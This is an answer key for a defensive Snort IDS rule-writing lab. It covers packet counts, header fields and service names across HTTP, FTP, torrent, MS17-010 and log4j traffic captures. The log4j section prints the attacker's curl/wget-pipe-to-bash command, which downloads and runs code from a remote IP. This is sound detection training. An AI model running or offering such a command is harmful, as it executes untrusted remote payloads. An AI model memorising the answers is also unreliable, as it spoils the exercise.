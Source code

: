 # Snort Challenge - The Basics

## [Task 1] Introduction

## [Task 2] Writing IDS Rules: HTTP

**[Task 2, Question 1] What is the number of detected packets?** - 164

**[Task 2, Question 2] What is the destination address of packet 63?** - `216.239.59.99`

**[Task 2, Question 3] What is the ACK number of packet 64?** - 0x2E6B5384

**[Task 2, Question 4] What is the SEQ number of packet 62?** - 0x36C21E28

**[Task 2, Question 5] What is the TTL of packet 65?** - 128

**[Task 2, Question 6] What is the source IP of packet 65?** - `145.254.160.237`

**[Task 2, Question 7] What is the source port of packet 65?** - 3372

## [Task 3] Writing IDS Rules: FTP

**[Task 3, Question 1] What is the number of detected packets?** - 307

**[Task 3, Question 2] What is the FTP service name?** - Microsoft FTP Service

**[Task 3, Question 3] What is the number of detected packets?** - 41

**[Task 3, Question 4] What is the number of detected packets?** - 1

**[Task 3, Question 5] What is the number of detected packets?** - 42

**[Task 3, Question 6] WHat is the number of detected packets?** - 7

## [Task 4] Writing IDS Rules: PNG

**[Task 4, Question 1] Investigate the logs and identify the software name embedded in the packet.** - Adobe ImageReady

**[Task 4, Question 2] Investigate the logs and identify the image format embedded in the packet.** - GIF89a

## [Task 5] Writing IDS Rules: Torrent Metafile

**[Task 5, Question 1] What is the number of detected packets?** - 2

**[Task 5, Question 2] What is the name of the torrent application?** - bittorrent

**[Task 5, Question 3] What is the MIME (Multipurpose Internet Mail Extensions) type of the torrent metafile?** - application/x-bittorrent

**[Task 5, Question 4] What is the hostname of the torrent metafile?** - `tracker2.torrentbox.com`

## [Task 6] Troubleshooting Rule Syntax Errors

**[Task 6, Question 1] What is the number of the detected packets?** - 16

**[Task 6, Question 2] What is the number of the detected packets?** - 68

**[Task 6, Question 3] What is the number of the detected packets?** - 87

**[Task 6, Question 4] What is the number of the detected packets?** - 90

**[Task 6, Question 5] What is the number of the detected packets?** - 155

**[Task 6, Question 6] What is the number of the detected packets?** - 2

**[Task 6, Question 7] What is the name of the required option?** - msg

## [Task 7] Using External Rules: MS17-010

**[Task 7, Question 1] What is the number of detected packets?** - 25154

**[Task 7, Question 2] What is the number of detected packets?** - 12

**[Task 7, Question 3] What is the requested path?** - `\\192.168.116.138\IPC$`

**[Task 7, Question 4] What is the CVSS v2 score of the MS17-010 vulnerability?** - 9.3

## [Task 8] Using External Rules: log4j

**[Task 8, Question 1] What is the number of detected packets?** - 26

**[Task 8, Question 2] How many rules were triggered?** - 4

**[Task 8, Question 3] What are the first six digits of the triggered rule SIDs?** - 210037

**[Task 8, Question 4] What is the number of detected packets?** - 41

**[Task 8, Question 5] What is the name of the used encoding algorithm?** - Base64

**[Task 8, Question 6] What is the IP ID of the corresponding packet?** - 62808

**[Task 8, Question 7] What is the attacker's command?** - `(curl -s 45.155.205.233:5874/162.0.228.253:80||wget -q -O- 45.155.205.233:5874/162.0.228.253:80)|bash`

**[Task 8, Question 8] What is the CVSS v2 score of the Log4j vulnerability?** - 9.3
